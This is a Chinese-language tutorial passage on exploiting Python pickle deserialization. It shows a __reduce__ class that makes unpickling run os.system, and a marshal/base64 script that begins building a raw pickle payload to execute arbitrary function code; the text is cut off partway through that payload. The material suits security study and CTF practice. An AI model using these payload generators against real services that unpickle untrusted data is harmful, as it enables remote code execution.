 

### 手写pickle模板



![image6628](https://ws1.sinaimg.cn/large/006pWR9agy1g9xumsbi3oj30qg0hoad6.jpg)





### 利用`__reduce__`来生成pickle代码

`__reduce__`



> 当定义扩展类型时（也就是使用Python的C语言API实现的类型），如果你想pickle它们，你必须告诉Python如何pickle它们。 __reduce__ 被定义之后，当对象被Pickle时就会被调用。 



```python
import os, pickle
class Test(object):
    def __reduce__(self):
        return (os.system,('ls',))
    
print(pickle.dumps(Test(), protocol=0))
```



### 利用marshal和cPickle来生成代码

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import marshal
import base64
import cPickle
import urllib
import pickle

def foo():#you should write your code in this function
    import os
    def fib(n):
        if n <= 1:
            return n
        return fib(n-1) + fib(n-2)
    print 'fib(10) =', fib(10)
    os.system('dir')

code_serialized = base64.b64encode(marshal.dumps(foo.func_code))


#为了保证code_serialized中的内容得到执行，我们需要如下代码
#(types.FunctionType(marshal.loads(base64.b64decode(code_serialized)), globals(), ''))()

payload =  """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
```